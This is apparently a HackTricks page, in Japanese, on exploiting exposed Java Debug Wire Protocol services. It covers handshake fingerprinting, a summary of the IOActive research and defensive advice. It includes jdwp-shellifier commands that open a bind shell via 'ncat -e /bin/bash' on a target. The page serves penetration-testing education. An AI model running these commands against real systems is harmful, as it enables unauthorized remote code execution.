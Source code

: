 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。私たちはペンテスターを置き換えるのではなく、彼らがより深く掘り下げ、シェルをポップし、楽しむための時間を取り戻すために、カスタムツール、検出および悪用モジュールを開発しています。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploiting

JDWPの悪用は、**プロトコルの認証と暗号化の欠如**に依存しています。一般的には**ポート8000**で見られますが、他のポートも可能です。最初の接続は、ターゲットポートに「JDWP-Handshake」を送信することで行われます。JDWPサービスがアクティブであれば、同じ文字列で応答し、その存在を確認します。このハンドシェイクは、ネットワーク上のJDWPサービスを特定するためのフィンガープリンティング手法として機能します。

プロセス識別に関しては、Javaプロセス内で「jdwk」という文字列を検索することで、アクティブなJDWPセッションを示すことができます。

使用するツールは[**jdwp-shellifier**](https://github.com/hugsy/jdwp-shellifier)です。さまざまなパラメータで使用できます：
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
`--break-on 'java.lang.String.indexOf'`を使用すると、エクスプロイトがより**安定**します。また、ホストにバックドアをアップロードしてコマンドを実行する代わりにそれを実行する機会があれば、エクスプロイトはさらに安定します。

## 詳細

**これは[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)の要約です**。詳細については、こちらを確認してください。

1. **JDWPの概要**:
- パケットベースのネットワークバイナリプロトコルで、主に同期的です。
- 認証と暗号化が欠如しており、敵対的なネットワークにさらされると脆弱です。

2. **JDWPハンドシェイク**:
- 通信を開始するためにシンプルなハンドシェイクプロセスが使用されます。デバッガ（クライアント）とデバッグ対象（サーバー）間で14文字のASCII文字列「JDWP-Handshake」が交換されます。

3. **JDWP通信**:
- メッセージは長さ、ID、フラグ、コマンドセットなどのフィールドを持つシンプルな構造です。
- コマンドセットの値は0x40から0x80までで、異なるアクションやイベントを表します。

4. **エクスプロイト**:
- JDWPは任意のクラスとバイトコードをロードして呼び出すことを許可し、セキュリティリスクを引き起こします。
- 記事では、Javaランタイムの参照を取得し、ブレークポイントを設定し、メソッドを呼び出すという5つのステップからなるエクスプロイトプロセスが詳述されています。

5. **実際のエクスプロイト**:
- ファイアウォール保護の可能性にもかかわらず、JDWPサービスは発見可能で、ShodanHQやGitHubなどのプラットフォームでの検索によって実際のシナリオでエクスプロイト可能です。
- エクスプロイトスクリプトはさまざまなJDKバージョンに対してテストされており、プラットフォームに依存せず、信頼性のあるリモートコード実行（RCE）を提供します。

6. **セキュリティの影響**:
- インターネット上にオープンなJDWPサービスが存在することは、定期的なセキュリティレビュー、プロダクション環境でのデバッグ機能の無効化、適切なファイアウォール設定の必要性を強調しています。

### **参考文献:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。私たちはペンテスターを置き換えるのではなく、彼らがより深く掘り下げ、シェルをポップし、楽しむための時間を取り戻すためにカスタムツール、検出およびエクスプロイトモジュールを開発します。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
